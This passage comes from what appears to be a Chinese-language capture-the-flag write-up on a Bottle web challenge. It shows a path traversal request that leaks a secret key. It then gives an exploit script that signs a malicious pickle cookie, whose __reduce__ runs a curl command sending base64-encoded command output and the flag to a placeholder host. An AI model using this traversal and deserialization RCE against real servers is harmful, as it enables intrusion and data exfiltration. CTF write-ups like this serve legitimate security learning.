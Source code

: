 ```python
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

`/show?id=../../../../../../app/config/secret.py`找到secret`sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"`

先成为admin看看有没有什么东西
![图 3](https://s2.loli.net/2022/10/02/PGVurZn9R6w4ISf.png)

然后把admin的模板文件读出来了也没找到什么

```html
<!DOCTYPE html>
<html>
<head>
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Sekai's boooootttttttlllllllleeeee</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="text-white bg-zinc-800 container px-4 mx-auto text-center h-screen box-border flex justify-center item-center flex-col">
        Hello, you are {{name}}, but it’s useless.
</body>
</html>
```

看bottle的源码发现是cookie_decode的时候会用pickle.loads,而pickle.loads会将反序列化得到的字符串当作命令执行，因此可以实现RCE。

> pickle反序列化可以参考文章`<https://ucasers.cn/python%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%B8%8E%E6%B2%99%E7%AE%B1%E9%80%83%E9%80%B8/>`

EXP:

```python
from bottle import route, run,response
import os


sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"

class exp():
    def __reduce__(self):
        # cmd = "curl http://x.x.x.x:7777/123?res=`ls -la /|base64 -w 0`"
        cmd = "curl http://x.x.x.x:7777/123?res=`/flag|base64 -w 0`"
        return (os.system, (cmd,))


@route("/sign")
def index():
    try:
        # session = {"name": "admin"}
        session = exp()
        response.set_cookie("name", session, secret=sekai)
        return "success"
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
```